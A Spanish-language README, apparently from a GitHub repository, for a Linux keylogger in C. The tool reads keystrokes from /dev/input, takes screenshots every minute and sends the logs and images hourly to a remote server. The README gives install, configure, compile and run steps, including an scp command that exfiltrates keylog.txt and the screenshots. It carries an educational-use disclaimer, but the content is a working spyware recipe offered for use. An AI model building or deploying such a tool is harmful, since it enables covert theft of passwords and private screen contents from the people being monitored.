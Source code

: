 # Keylogger + Caps 👁

Keylogger con función de capturas de pantalla y envio de datos a un servidor configurable **LINUX**.

# ⚠️ ADVERTENCIA

Este proyecto fue desarrollado **exclusivamente con fines educacionales** como parte de un curso de seguridad informática. **No debe ser utilizado en ningún otro contexto ni con intenciones maliciosas.**

**Aviso Legal:**

El uso de keyloggers esta estrictamente prohibido en diversos países si no se cuenta con el consentimiento explícito del usuario final. El monitoreo o captura de las actividades de un usuario sin su autorización es una violación grave de la privacidad y puede conllevar sanciones legales.

Este código **no debe ser utilizado fuera del entorno educacional ni aplicado a sistemas en producción o dispositivos ajenos sin autorización y consentimiento explicito.**
**El autor no se hace responsable por el uso indebido de este código.** Cualquier intento de utilizar este proyecto para propósitos distintos a los estipulados en este repositorio es **bajo responsabilidad del usuario.**

# Requisitos:

_Nota: La distribución usada y la de este tutorial es para sistemas basados en Debian._
_El código del ejemplo fue probado en un sistema con Parrot por lo que puede variar dependiendo del sistema utilizado._

Es necesario contar con lo siguiente para poder ejecutar y/o compilar el programa:

- **Compilador de C (en este caso gcc).**
- **Libreria scrot (para captura de pantalla).**

```bash
  sudo apt-get install scrot
```

- **Libreria openssh-client (para el envio de datos a servidor local).**

```bash
  sudo apt-get install openssh-client
```

- **Librerias evdev (para trabajar con evdev).**

```bash
  sudo apt-get install libevdev-dev
```

**Nota:** Además, se utilizaron otras librerias que estan preinstaladas en entornos linux, en caso no presentar errores de librerias, aqui se encuentra un listado con todas las que se utilizaron.

```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <fcntl.h>
  #include <unistd.h>
  #include <linux/input.h>
  #include <linux/input-event-codes.h>
  #include <pthread.h>
  #include <time.h>
```

# Instrucciones de uso:

Dentro de keylogger.c configurar las rutas de acuerdo a donde se requieran:

```c
  //Por defecto se crean en el mismo directorio donde
  //se encuentra el ejecutable

  // Ruta del archivo que registra las teclas
  log_file = fopen("keylog.txt", "a");
  //Ruta de la carpeta que contiene las imagenes
  snprintf(filename, sizeof(filename), "screenshot_%04d-%02d-%02d_%02d-%02d-%02d.png",
```

Dentro de keylogger.c en la función **_transfer_files_** modificar la variable de acuerdo a tu servidor:

```c
  //Variable de ruta
  snprintf(command, sizeof(command), "scp keylog.txt screenshot_*.png user@server:/path/to/destination/");
```

Una vez teniendo el archivo **keylogger.c** configurado ejecutar el siguiente comando para compilarlo:

```bash
  gcc -o keylogger keylogger.c -pthread
```

y despues ejecutar de la siguiente manera:

```bash
  sudo ./keylogger
```

Y automaticamente despues de ejecutar, se  creara un TXT en la ruta del ejecutable **keylogger** que empezará a registrar las teclas que vamos pulsando además de tomar capturas de pantalla **cada minuto** y enviarlas a un servidor cada hora.

# Supuestos del programa:

## Sistema Operativo:

1. El programa está diseñado para ejecutarse en una distribución de Linux.

## Permisos de Usuario:

1. Se asume que el programa se ejecuta con los permisos necesarios para acceder a los dispositivos de entrada del teclado **(/dev/input/event3)** y que tiene permisos de escritura en el directorio donde se almacenarán los registros y capturas de pantalla.

## Dependencias Instaladas:

1. **libssh2**  para manejar las conexiones SSH.

2. **scrot** para tomar capturas de pantalla.

3. **pthread** para manejar la concurrencia (aunque pthread.h está preinstalado en la mayoría de los sistemas Linux, es necesario asegurarse de que esté disponible).

## Configuración SSH:

1. Se asume que las credenciales de acceso SSH al servidor remoto están configuradas correctamente, ya sea mediante autenticación por clave o usuario/contraseña, y que el servidor remoto está accesible.

## Conexión a Internet:

1. Se asume que la máquina en la que se ejecuta el programa tiene conexión a Internet para poder realizar el envío de los archivos al servidor remoto.

## Directorio de Trabajo:

1. Se asume que el directorio donde se almacenan las capturas de pantalla y los registros de teclas tiene suficiente espacio en disco.

# Casos de uso:

El programa funciona en forma de **3 hilos**, **1 para registrar las teclas**, **1 para tomar las screenshots** y **otro para enviar la información al servidor.** Por lo que técnicamente funcionan de forma independiente y no dependen uno del otro. Sin embargo si no se encuentra el TXT (en un caso hipotético), el programa no tendrá nada para enviar al servidor y lo mismo con las imagenes.

## Hilo principal (main):

| Paso | Actor | Sistema                                    | Si falla                           |
| ---- | ----- | ------------------------------------------ | ---------------------------------- |
| 1    |       | Crear hilos de ejecución para cada tarea   |
| 2    |       | Se crea el hilo del keylogger              | No se registrarán las teclas       |
| 3    |       | Se crea el hilo del tomador de screenshots | No se tomarán screenshots          |
| 4    |       | Se crea el hilo del envio a servidor       | No se enviarán datos a el servidor |

Entonces podemos dividir los casos de uso en 3 partes.

Además, podemos agregar un caso extra por el monitorio constante tanto de teclas, como de capturas de pantalla.

1. Registro de Teclas:

- **Descripción:** El programa captura las pulsaciones de teclas del usuario en tiempo real y las almacena en un archivo **keylog.txt**.
- **Caso de Uso:** Registrar la actividad del teclado para su posterior análisis.

2. Captura de Pantallas:

- **Descripción:** Cada minuto, el programa toma una captura de pantalla y la guarda con un nombre que incluye la fecha y hora de la captura.
- **Caso de Uso:** Monitorear la actividad visual de la pantalla para revisar lo que se muestra en intervalos regulares.

3. Envío de Datos al Servidor Remoto:

- **Descripción:** Cada hora, el programa empaqueta los archivos **keylog.txt** y las capturas de pantalla en un archivo comprimido y lo envía a un servidor remoto usando SSH.
- **Caso de Uso:** Transferir los datos recopilados a un servidor remoto para su almacenamiento o análisis.

4. Monitoreo Concurrente:

- **Descripción:** El programa ejecuta las tareas de captura de teclas, captura de pantalla y envío de datos de manera concurrente usando hilos **(pthread)**.
- **Caso de Uso:** Permitir que todas las funcionalidades se ejecuten simultáneamente sin interferencias.